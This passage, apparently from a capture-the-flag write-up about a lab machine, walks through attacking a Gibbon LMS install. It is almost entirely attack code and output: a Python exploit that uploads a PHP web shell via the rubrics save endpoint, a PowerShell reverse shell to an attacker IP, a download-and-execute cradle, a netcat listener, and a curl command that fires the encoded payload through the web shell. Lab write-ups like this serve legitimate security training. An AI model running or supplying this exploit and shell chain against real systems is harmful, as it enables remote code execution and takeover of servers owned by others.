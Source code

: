 ```python
import requests
import base64

# config options
gibbon_root = "http://frizzdc.frizz.htb/Gibbon-LMS/"
path = "asdf.php"
payload = "<?php echo system($_GET['cmd']);?>"

url = f"{gibbon_root}/modules/Rubrics/rubrics_visualise_saveAjax.php"
target_file = f"{gibbon_root.rsplit('/', 1)[0]}/{path}"
encoded_payload = base64.b64encode(payload.encode()).decode()

data = {
  "img" : f"image/png;asdf,{encoded_payload}",
  "path": path,
  "gibbonPersonID": "0000000001"
}

response = requests.post(url,data=data)

if response.status_code == 200:
  print(f"[+] Payload sent successfully to {url}")
  if requests.get(target_file).status_code == 200:
  	print(f"[+] File accessible at {target_file}")
  	print(f"[+] Checking current user: {requests.get(f'{target_file}?cmd=whoami').text}")
  else:
  	print(f"[-] Could not access file at {target_file}")
else:
  print(f"[!] Failed to send payload. Status code: {response.status_code}")
```

After running our exploit script we can access our webshell.

```console
$ python exploit.py
[+] Payload sent successfully to http://frizzdc.frizz.htb/Gibbon-LMS//modules/Rubrics/rubrics_visualise_saveAjax.php
[+] File accessible at http://frizzdc.frizz.htb/Gibbon-LMS/asdf.php
[+] Checking current user: frizz\w.webservice
```

Next we can try to get a shell on the machine. We can generate a Powershell reverse shell cradle as follows:

```console
$ cat shell.ps1
$client = New-Object System.Net.Sockets.TCPClient('10.10.16.29',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

$ echo "IEX (New-Object System.Net.WebClient).DownloadString('http://10.10.16.29:8888/shell.ps1')" > cradle
$ cat cradle | iconv -t utf-16le | base64 -w 0; echo

$ python3 -m http.server 8888
$ sudo nc -nvlp 443
$ curl 'http://frizzdc.frizz.htb/Gibbon-LMS/asdf.php?cmd=cmd+/c+powershell+-enc+SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAE4AZQB0AC4AVwBlAGIAQwBsAGkAZQBuAHQAKQAuAEQAbwB3AG4AbABvAGEAZABTAHQAcgBpAG4AZwAoACcAaAB0AHQAcAA6AC8ALwAxADAALgAxADAALgAxADYALgAyADkAOgA4ADgAOAA4AC8AcwBoAGUAbABsAC4AcABzADEAJwApAAoA'
```
